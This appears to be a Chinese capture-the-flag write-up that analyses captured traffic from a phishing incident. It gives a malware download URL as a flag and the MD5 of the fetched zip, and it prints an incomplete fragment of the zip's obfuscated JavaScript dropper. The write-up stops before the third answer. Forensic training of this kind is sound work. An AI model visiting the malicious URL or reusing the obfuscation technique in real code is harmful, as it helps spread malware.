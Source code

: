 

# 流量特征分析-小王公司收到的钓鱼邮件

## 一,下载数据包文件 hacker1.pacapng，分析恶意程序访问了内嵌 URL 获取了 zip 压缩包，该 URL 是什么将该 URL作为 FLAG 提交 FLAG（形式：flag{xxxx.co.xxxx/w0ks//?YO=xxxxxxx}） (无需 http、https)；

![image-20240609200101104](C:/Users/qianenzhao/AppData/Roaming/Typora/typora-user-images/image-20240609200101104.png)

找到压缩包流量

![image-20240609200205897](C:/Users/qianenzhao/AppData/Roaming/Typora/typora-user-images/image-20240609200205897.png)

> **flag{http://tsdandassociates.co.sz/w0ks//?YO=1702920835}**

## 二,下载数据包文件 hacker1.pacapng，分析获取到的 zip 压缩包的 MD5 是什么 作为 FLAG 提交 FLAG（形式：flag{md5}）；

![image-20240609200101104](C:/Users/qianenzhao/AppData/Roaming/Typora/typora-user-images/image-20240609200101104.png)

提取出压缩包

```shell
f17dc5b1c30c512137e62993d1df9b2f  1.zip
```

> $ md5sum 1.zip

> **flag{f17dc5b1c30c512137e62993d1df9b2f}**

## 三,下载数据包文件 hacker1.pacapng，分析 zip 压缩包通过加载其中的 javascript 文件到另一个域名下载后续恶意程序， 该域名是什么?提交答案:flag{域名}(无需 http、https)

```shell
/* Blanditiis vel dolorem alias ullam similique. */ /* Et reprehenderit blanditiis qui veniam voluptas. */
/* Et eveniet ea est quis error soluta. */ /* Molestiae non eos similique consectetur facere. */ /* Velit quis et ab aut tempora quasi. */ /* Harum et maiores vel et. */                 x808919187 = '';
/* Aperiam aliquam nemo molestias exercitationem. */ /* Placeat ratione nostrum cumque tempore. */ /* Consequatur consectetur sed rerum aperiam quia. */ /* Libero rem et error sit sit ut. */ x808919187+='t';
/* Et laudantium mollitia itaque. */ /* Suscipit nostrum sequi soluta est. */ /* Nobis voluptatem labore aut nihil. */ x808919187+='r';
/* Ipsum sit neque debitis sunt. */ /* Et eum doloribus eos cupiditate deserunt. */ x808919187+='u';
/* Quia vitae omnis molestiae. */ /* Eaque nihil aut neque saepe iste minus et. */ /* Quia eveniet sit iusto molestias quidem non. */ x808919187+='e';
/* Ex est saepe illo animi libero aut quos magnam. */ /* Sequi est at ex sed. */ /* Provident sed est maiores dolor odio nostrum. */ x449195806 = '';
/* Porro minima ab reprehenderit non eaque dolore. */ /* Ut in porro molestiae non qui. */ /* Sed quis qui ipsum repellat. */ x449195806+='f';
/* Non autem iste aut aut et sequi explicabo. */ /* Quisquam qui eaque eligendi temporibus quas. */ /* Voluptatem facilis deserunt et et odio. */ /* Accusantium accusantium et neque molestias. */ x449195806+='a';
/* Aliquam qui quisquam quasi rem fugit. */ /* Doloribus saepe repudiandae vel et. */ /* Voluptatem amet adipisci aut inventore minus. */ /* Sed cum sunt dolor occaecati similique. */ /* Non doloremque culpa dolores illo. */ x449195806+='l';/* Blanditiis vel dolorem alias ullam similique. */ /* Et reprehenderit blanditiis qui veniam voluptas. */
/* Et eveniet ea est quis error soluta. */ /* Molestiae non eos similique consectetur facere. */ /* Velit quis et ab aut tempora quasi. */ /* Harum et maiores vel et. */                 x808919187 = '';
```